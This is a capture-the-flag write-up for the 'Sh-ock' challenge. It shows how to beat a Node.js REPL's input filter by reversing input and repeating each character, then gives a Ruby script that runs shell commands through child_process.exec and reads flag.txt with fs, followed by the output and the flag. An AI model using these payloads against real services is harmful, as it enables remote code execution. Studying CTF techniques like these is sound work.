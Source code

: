 #Sh-ock
###(exp90, solved by 105)


>Description: This is some kind of weird thing. I am sh-ocked.

>Service: 188.166.133.53:12589

First thing is first, let's see what we are working with...

`telnet 188.166.133.53 12589`

We are greeted with a small prompt where we can input data, let's try some stuff:

```
$test
[ReferenceError: te is not defined]
```

That's weird, what kind of error is this? A quick Google search on the error provides information that this is likely a JavaScript error. So, it looks like we are working with some kind of JavaScript shell, and it's likely Node.

We input `test` and got `te` back... So, it reversed our input and grabbed ever other character... Interesting....

Let's try something else:

```
$01234567890123456789012345
[ReferenceError: 284062 is not defined]
```

Hrmmmm...
```
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5
    ^       ^       ^       ^       ^       ^
```

Instead of every other character, now it's every third character...

After some vigorous attempts at figuring out how the filter was working, it was found that if the input exceeds 50 characters, it will take every 6th character. This means that as long as our input is greater than or equal to 9 bytes in length, we can just reverse our input and repeat each character 6 times. If the input is less than 9 characters, we could simply add a comment section to fulfill those bytes.

Okay, so now that we have figured out the filter, let's throw some JavaScript related queries at it (Some code pastes will be shortened for the sake of this writeup's length)

Let's run the command `this` and see how it responds. We can accomplish this by padding our extra 5 bytes with a JavaScript comment, reverse it and repeat each character 6 times. This will make our input 54 bytes long, allowing it to bypass the filter properly.

`//////////////////////////////ssssssiiiiiihhhhhhtttttt`


```
$//////////////////////////////ssssssiiiiiihhhhhhtttttt
Interface {
  _sawReturn: false,
  domain: null,
  _events:
   { close: { [Function: g] listener: [Function] },
     line: [Function] },
  _eventsCount: 2,
  _maxListeners: undefined,
  output:
   Socket {
     _connecting: false,
     _hadError: false,
     _handle:
      TCP {
        _externalStream: {},
```

Okay, this is interesting. It appears to have dropped us an object list of it's properties!

Let's try and execute `process` now

```
$////////////sssssssssssseeeeeeccccccoooooorrrrrrpppppp
process {
  title: '/opt/nodejs/bin/node',
  version: 'v4.3.0',
  moduleLoadList:
   [ 'Binding contextify',
     'Binding natives',
     'NativeModule events',
     'NativeModule buffer',
     'Binding buffer',
     'NativeModule internal/util',
     'Binding util',
     'NativeModule timers',
     'Binding timer_wrap',
     'NativeModule _linklist',
     'NativeModule assert',
     'NativeModule util',
     'Binding uv',
     'NativeModule path',
     'NativeModule module',
     'NativeModule internal/module',
     'NativeModule vm',
     'NativeModule fs',
     'Binding fs',
     'NativeModule constants',
     'Binding constants',
     'NativeModule stream',
     'NativeModule _stream_readable',
     'NativeModule _stream_writable',
     'NativeModule _stream_duplex',
     'NativeModule _stream_transform',
     'NativeModule _stream_passthrough',
     'Binding fs_event_wrap',
     'NativeModule readline',
     'Binding tty_wrap',
     'NativeModule net',
     'Binding cares_wrap',
     'Binding tcp_wrap',
     'Binding pipe_wrap',
     'Binding stream_wrap',
     'NativeModule string_decoder',
     'NativeModule console' ],
  versions:
   { http_parser: '2.5.1',
     node: '4.3.0',
     v8: '4.5.103.35',
     uv: '1.8.0',
     zlib: '1.2.8',
     ares: '1.10.1-DEV',
     icu: '56.1',
     modules: '46',
     openssl: '1.0.2f' },
  arch: 'x64',
  platform: 'linux',
  release:
   { name: 'node',
     lts: 'Argon',
     sourceUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0.tar.gz',
     headersUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0-headers.tar.gz' },
  argv: [ '/opt/node-v4.3.0-linux-x64/bin/node', '/home/exp90/task.js' ],
  execArgv: [],
  env:
   { OLDPWD: '/etc/service/exp90',
     PATH: '/command:/usr/local/bin:/usr/local/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/X11R6/bin',
```

Awesome!

At this point, I'm tired of reversing my input and manually repeating characters, so I made a script in Ruby. It will connect and execute some initial commands, and then give me a prompt to input whatever else I would like to run in the same session.

(This code can be found in exp90.rb)
```
#!/usr/bin/ruby
require 'socket'
HOST      = '188.166.133.53'
PORT      = 12589

@sock = TCPSocket.new(HOST, PORT)
@initial_payloads = ["this.sys=require('sys')", "this.ex=require('child_process').exec", 'this.ex("ls -la", function(error, stdout, stderr) { console.log(stdout); })']

def send_data(stuff)
  puts "PLOAD: #{stuff}"
  @sock.write("#{stuff.to_s}\n")
end

def generate_payload(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
  @initial_payloads.shift
end

def custom_input(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
end

loop do
  @data = @sock.recv(1024)
  puts @data unless @data.empty?
  if @initial_payloads.size >= 1
    generate_payload(@initial_payloads[0])
  else
    print '> '
    i = gets.chomp
    custom_input(i)
  end
end
```

As you can see the initial payloads will create a variable within the object called sys, which will require system and the next command following that will try and dump the contents of the directory!

Upon running, we get the directory dump!!!

```
drwxr-x---  2 exp90 exp90 4096 Feb 19 14:26 .
drwxr-xr-x 14 root  root  4096 Feb 11 12:19 ..
-rw-------  1 exp90 exp90    6 Feb 19 14:26 .bash_history
-rw-r--r--  1 exp90 exp90  220 Nov 13  2014 .bash_logout
-rw-r--r--  1 exp90 exp90 3515 Nov 13  2014 .bashrc
-rw-r--r--  1 exp90 exp90  675 Nov 13  2014 .profile
-rw-r--r--  1 root  exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root  exp90 1011 Feb 11 18:23 task.js
```

The final thing to do is to read the contents of the `flag.txt` file.
We need to require the `fs` module and store it in a variable associated with the object. We can then use this to read from files.

Running it in le script

```
> this.f=require('fs')
> this.f.readFileSync('flag.txt','utf8')
```

Desired output? I think so!

```
IW{Shocked-for-nothing!
>
```
